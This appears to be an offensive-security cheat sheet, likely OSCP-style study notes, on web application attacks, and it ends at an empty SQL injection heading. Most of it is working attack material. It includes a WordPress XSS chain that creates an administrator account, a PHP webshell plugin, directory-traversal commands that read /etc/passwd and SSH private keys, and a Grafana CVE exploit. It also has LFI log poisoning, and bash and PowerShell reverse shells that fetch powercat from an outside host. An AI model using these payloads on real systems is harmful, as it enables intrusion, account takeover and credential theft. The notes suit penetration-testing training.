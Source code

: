
# Web Application Attacks

## XSS

The most common special characters used for this purpose include:
```< > ' " { } ;```

### WordPress

#### gather nonce

```javascript
var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/user-new.php";
var nonceRegex = /ser" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1];
```

#### create user

```javascript
var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";
ajaxRequest = new XMLHttpRequest();
ajaxRequest.open("POST", requestURL, true);
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajaxRequest.send(params);
```

#### JS Compress

<https://jscompress.com/>

#### convert to UTF-16

```javascript
function encode_to_javascript(string) {
            var input = string
            var output = '';
            for(pos = 0; pos < input.length; pos++) {
                output += input.charCodeAt(pos);
                if(pos != (input.length - 1)) {
                    output += ",";
                }
            }
            return output;
        }
        
let encoded = encode_to_javascript('insert_minified_javascript')
console.log(encoded)
```

#### execute

```bash
curl -i http://offsecwp --user-agent "<script>eval(String.fromCharCode(118,97,114,32,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,44,114,101,113,117,101,115,116,85,82,76,61,34,47,119,112,45,97,100,109,105,110,47,117,115,101,114,45,110,101,119,46,112,104,112,34,44,110,111,110,99,101,82,101,103,101,120,61,47,115,101,114,34,32,118,97,108,117,101,61,34,40,91,94,34,93,42,63,41,34,47,103,59,97,106,97,120,82,101,113,117,101,115,116,46,111,112,101,110,40,34,71,69,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,49,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,41,59,118,97,114,32,110,111,110,99,101,77,97,116,99,104,61,110,111,110,99,101,82,101,103,101,120,46,101,120,101,99,40,97,106,97,120,82,101,113,117,101,115,116,46,114,101,115,112,111,110,115,101,84,101,120,116,41,44,110,111,110,99,101,61,110,111,110,99,101,77,97,116,99,104,91,49,93,44,112,97,114,97,109,115,61,34,97,99,116,105,111,110,61,99,114,101,97,116,101,117,115,101,114,38,95,119,112,110,111,110,99,101,95,99,114,101,97,116,101,45,117,115,101,114,61,34,43,110,111,110,99,101,43,34,38,117,115,101,114,95,108,111,103,105,110,61,97,116,116,97,99,107,101,114,38,101,109,97,105,108,61,97,116,116,97,99,107,101,114,64,111,102,102,115,101,99,46,99,111,109,38,112,97,115,115,49,61,97,116,116,97,99,107,101,114,112,97,115,115,38,112,97,115,115,50,61,97,116,116,97,99,107,101,114,112,97,115,115,38,114,111,108,101,61,97,100,109,105,110,105,115,116,114,97,116,111,114,34,59,40,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,41,46,111,112,101,110,40,34,80,79,83,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,48,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,116,82,101,113,117,101,115,116,72,101,97,100,101,114,40,34,67,111,110,116,101,110,116,45,84,121,112,101,34,44,34,97,112,112,108,105,99,97,116,105,111,110,47,120,45,119,119,119,45,102,111,114,109,45,117,114,108,101,110,99,111,100,101,100,34,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,112,97,114,97,109,115,41,59))</script>" --proxy 127.0.0.1:8080
```

#### add plugin

<https://www.jckhmr.net/create-a-wordpress-webshell-plugin/>

```php
<?php
/**
* Plugin Name: WonderfulWebshell
* Plugin URI: https://github.com/jckhmr/wonderfullwebshell
* Description: Wordpress webshell used for demo purposes only
* Version: 1.0
* Author: jckhmr
* Author URI: https://jckhmr.net
* License: https://nosuchlicense
*/

if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
```

#### wpscan

<https://wpscan.com/>

```bash
wpscan --url http://
```

## Directory Traversal

```bash
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../home/offsec/.ssh/id_rsa

chmod 400 id_rsa
ssh offsec@192.168.152.16 -p 2222 -i id_rsa
```

### Grafana

#### CVE-2021-43798

##### linux

<https://www.exploit-db.com/exploits/50581>

```bash
python3 CVE-2021-43798.py -H http://192.168.152.16:3000
Read file > /etc/passwd
```

##### windows

```bash
python3 CVE-2021-43798.py -H http://192.168.152.193:3000 
Read file > \\users\\install.txt

curl --path-as-is http://192.168.152.193:3000/public/plugins/text/..\\..\\..\\..\\..\\..\\..\\..\\Users\\install.txt
curl --path-as-is http://192.168.152.193:3000/public/plugins/text/../../../../../../../../../Users/install.txt
curl --path-as-is http://192.168.152.193:3000/public/plugins/text/../../../../../../../../..\\Users\\install.txt
```

### Apache 2.4.49

```bash
curl http://192.168.50.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

## File Inclusion

### LFI

#### User-Agent

```
User-Agent: Mozilla/5.0 <?php echo system($_GET['cmd']); ?>
```

#### reverse shell by GET parameter

```
nc -lvnp 4444

bash -c "bash -i >& /dev/tcp/192.168.45.195/4444 0>&1"

index.php?page=../../../../../../var/log/apache2/access.log&cmd=bash%20%2Dc%20%22bash%20%2Di%20%3E%26%20%2Fdev%2Ftcp%2F192%2E168%2E45%2E195%2F4444%200%3E%261%22
```

### PHP Wrapper

#### php://filter

```
index.php?page=php://filter/resource=admin.php

index.php?page=php://filter/convert.base64-encode/resource=/var/www/html/backup.php
```

#### data://

```
index.php?page=data://text/plain,<?php%20echo%20system($_GET["cmd"]);?>

index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls
```

### RFI

```
python3 -m http.server 80

index.php?page=http://192.168.45.235/simple-backdoor.php&cmd=ls
```

## File Upload

### Using Executable Files

### Using Non-Executable Files

```bash
ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa): fileup
...

cat fileup.pub > authorized_keys

../../../../../../../../root/.ssh/authorized_keys
```

## Command Injection

### found injection symbols

` = %60

`" " ' ; | & && || $ ( ) `


<https://gabb4r.gitbook.io/oscp-notes/cheatsheet/command-injection-cheatsheet>

### execute command

```

(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell

(dir%202%3E%261%20*%60%7Cecho%20CMD)%3B%26%3C%23%20rem%20%23%3Eecho%20PowerShell

```

```powershell
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.45.223/powercat.ps1");powercat -c 192.168.45.223 -p 4444 -e powershell

IEX%20(New-Object%20System.Net.Webclient).DownloadString(%22http%3A%2F%2F192.168.45.235%2Fpowercat.ps1%22)%3Bpowercat%20-c%20192.168.45.235%20-p%204444%20-e%20powershell
```

## SQL Injection
